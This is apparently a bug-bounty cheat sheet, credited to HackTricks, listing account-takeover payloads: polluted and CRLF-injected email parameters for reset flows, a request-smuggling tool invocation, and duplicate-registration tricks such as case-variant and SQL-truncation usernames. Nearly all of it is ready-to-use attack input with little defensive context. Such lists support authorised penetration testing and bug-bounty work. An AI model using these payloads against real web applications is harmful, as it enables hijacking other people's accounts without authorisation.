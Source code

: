 ( Credits: HackTricks )
### **ATO from manipulating the email Parameter**
```python
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
#No domain:
email=victim
#No TLD (Top Level Domain):
email=victim@xyz
#change param case 
email=victim@mail.com&Email=attacker@mail.com
email@email.com**,**victim@hack.secry  
email@email**“,”**victim@hack.secry  
email@email.com**:**victim@hack.secry  
email@email.com**%0d%0a**victim@hack.secry  
**%0d%0a**victim@hack.secry  
**%0a**victim@hack.secry  
victim@hack.secry**%0d%0a**  
victim@hack.secry**%0a**  
victim@hack.secry**%0d** 
victim@hack.secry**%00**  
victim@hack.secry**{{}}**
```
### ATO Via Request Smuggling
```python
# Single Host: 
python3 smuggler.py -u <URL> 
# List of hosts: 
cat list_of_hosts.txt | python3 smuggler.py
```
[HTTP Request Smuggling leads to Full Accounts takeover](https://itsfading.github.io/posts/I-owe-your-Request-HTTP-Request-Smuggling-leads-to-Full-Accounts-takeover/)

### Duplicate Registration
1. Make 2 Accounts Same in everything [username and another things] but with Different email ID >> **ATO**
	- [Duplicate Registration - The Twinning Twins | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/duplicate-registration-the-twinning-twins-883dfee59eaf)
	- Create user named: **AdMIn** (uppercase & lowercase letters)
	- Create a user named: **admin=**
	- **SQL Truncation Attack** (when there is some kind of **length limit** in the username or email) --> Create user with name: **admin [a lot of spaces] a**
1. Play with email Parameter
	- uppsercase
	- +1@
	- add some some in the email
	- special characters in the email name (%00, %09, %20)
	- Put black characters after the email: `test@test.com a`
	- victim@gmail.com@attacker.com
	- victim@attacker.com@gmail.com
